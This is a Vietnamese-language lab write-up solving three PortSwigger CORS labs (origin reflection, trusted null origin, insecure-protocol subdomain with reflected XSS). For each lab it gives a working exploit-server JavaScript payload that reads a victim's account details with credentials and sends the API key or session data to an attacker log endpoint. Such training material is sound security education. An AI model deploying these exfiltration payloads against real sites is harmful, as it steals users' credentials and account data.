

# CORS

# **Lab: CORS vulnerability with basic origin reflection**

[Lab: CORS vulnerability with basic origin reflection | Web Security Academy](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

- Thực hiện login vào tài khoản `winer:peter` . Tại đây, thực hiện quan sát request gửi tới API `GET /accountDetails` có response trả về chứa header `Access-Control-Allow-Credentials` ⇒ cho phép lấy cookie từ trang origin
    - POC
        
        
        
- Thực hiện tạo web của chúng ta tại trang exploit
    - Exploit server
        - Head
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
               fetch('<vuln-lab>/accountDetails', {
                   method: 'GET',
                   credentials: 'include'
               })
               .then(response => response.text())
               .then(data => {
                   fetch('<exploit-server>/log?key=' + encodeURIComponent(data));
               });
            </script>
            ```
            
- Thực hiện gửi cho victim. Quan sát log chứa key
    - POC
        
        
        
- Submit api key. Hoàn thành giải lab
    
    
    

# **Lab: CORS vulnerability with trusted null origin**

[Lab: CORS vulnerability with trusted null origin | Web Security Academy](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

- Thực hiện login với tài khoản `wiener:peter` . Quan sát rằng, khi thêm header `Origin: null` thì response trả về ACAO `null` ⇒ CORS.
    - POC
        
        
        
- Để có thể có thêm header như trên thì chúng ta cần dùng iframe sandbox như sau (giống lý thuyết). Sau đó gửi cho victim bằng exploit server
    - Exploit server
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```html
            <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','https://0a1400ee04ff78f082b883ff003b00f1.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            
            function reqListener() {
            location='https://exploit-0a7e005e040978ef824b82af014d0091.exploit-server.net/log?key='+this.responseText;
            };
            </script>"></iframe>
            ```
            
- Thực hiện gửi cho victim. Điều hướng đến log nhận thấy nhận được credential của administrator. Thực hiện decode lấy được `apiKey`
    - POC
        
        
        
        
        
- Thực hiện submit solution. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: CORS vulnerability with trusted insecure protocols**

[Lab: CORS vulnerability with trusted insecure protocols | Web Security Academy](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

- Thực hiện login vào tài khoản `wiener:peter`. Thực hiện chọn một sản phẩm bất kỳ. Tại đây, kiểm tra lượng hàng bằng `Check stock` thì thấy web gọi đến một subdomain khác
    - POC
        
        
        
- Quan sát thấy rằng khi truyền payload vào query `productId` thì trang subdomain này reflect lại và có thể js execute
    - POC
        
        
        
- Tiếp theo, tại trang ban đầu khi thực hiện điều hướng đến chức năng `My account`, request gửi tới API `GET /accountDetails` cho phép các trang không cùng origin nhưng vẫn accept trang subdomain với scheme bất kỳ đọc response trả về kèm với cả cookie.
    - POC
        
        
        
        
        
- Như vậy, khi gửi url từ subdomain `stock.<url-lab>` chứa reflected xss ⇒ có thể fetch và đọc được response gửi tới API `GET /accountDetails` của domain `<url-lab>`
- Thực hiện cấu hình ezxploit server như sau:
    - Head
        
        ```bash
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```bash
        <script>location="http://stock.0ac900610383c2ef809f038d002e0019.web-security-academy.net/?productId=%3cscript%3efetch(%22https%3a%2f%2f0ac900610383c2ef809f038d002e0019.web-security-academy.net%2faccountDetails%22%2c%20%7b%20credentials%3a%20%22include%22%20%7d).then(res%20%3d%3e%20res.json()).then(data%20%3d%3e%20%7b%20location%20%3d%20%22https%3a%2f%2fexploit-0a8100ad0397c2d180f80295010300d8.exploit-server.net%2flog%3fkey%3d%22%2bdata.sessions%3b%20%7d)%3b%3c%2fscript%3e&storeId=aaaa"</script>
        ```
        
- Thực hiện deliver to victim và thấy key trả về
    - POC
        
        
        
- Thực hiện submit và hoàn thành giải lab
    - POC
        
        